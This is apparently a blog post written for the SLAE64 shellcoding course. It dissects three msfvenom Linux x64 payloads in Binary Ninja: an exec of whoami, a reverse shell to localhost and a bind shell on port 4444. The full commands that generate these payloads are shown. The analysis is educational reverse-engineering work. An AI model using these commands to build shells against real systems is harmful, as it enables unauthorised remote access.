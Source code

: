 Introduction
------------
In efforts to learn more about Binary Ninja, we will be taking apart three shellcode samples generated via `msfvenom`. Please note that disassemblers in general including Binary Ninja are fairly new to me and as such this will be a learning experience to me as much as it will be to you.

Shellcode I
-----------
First, we’ll look at `exec` option and generate payload that will run `whoami` command.

```sh
➜  ~ msfvenom -p linux/x64/exec CMD=whoami -f elf -o whoami
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 46 bytes
Final size of elf file: 166 bytes
Saved as: whoami
➜  ~ 
```

Will use the comment section in Binary Ninja to explain the shellcode as I feel it would be easier to digest this way.

![](/assets/images/Analyzing_Msfvenom_Payloads_with_Binary_Ninja_linux_x86_64/exec .png)

Shellcode II
------------
Next, we will be looking at stage-less reverse shell with an IP address of localhost and default port of `4444`.

```sh
➜  ~ msfvenom -p linux/x64/shell_reverse_tcp lhost=127.0.0.1 -f elf -o RevShell
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: RevShell
➜  ~ 
```

Let’s disassemble it.

![](/assets/images/Analyzing_Msfvenom_Payloads_with_Binary_Ninja_linux_x86_64/Reverse-Shell.png)

Shellcode III
-------------
Lastly, will dissect stage-less bind shell that listen on all interfaces on port `4444` (default).

```sh
➜  ~ msfvenom -p linux/x64/shell_bind_tcp -f elf -o BindShell
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 86 bytes
Final size of elf file: 206 bytes
Saved as: BindShell
➜  ~ 
```

And the analysis.

![](/assets/images/Analyzing_Msfvenom_Payloads_with_Binary_Ninja_linux_x86_64/Bind-Shell.png)

Closing Thoughts
----------------
I really like Binary Ninja and plan on using it more often moving forward. All of the above binaries are available on my [github](https://github.com/ihack4falafel/SLAE64/tree/master/Assignment%205). Feel free to contact me for questions via Twitter [@ihack4falafel](https://twitter.com/ihack4falafel).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certiﬁcation:

[http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html](http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html)

Student ID: SLAE64–1579
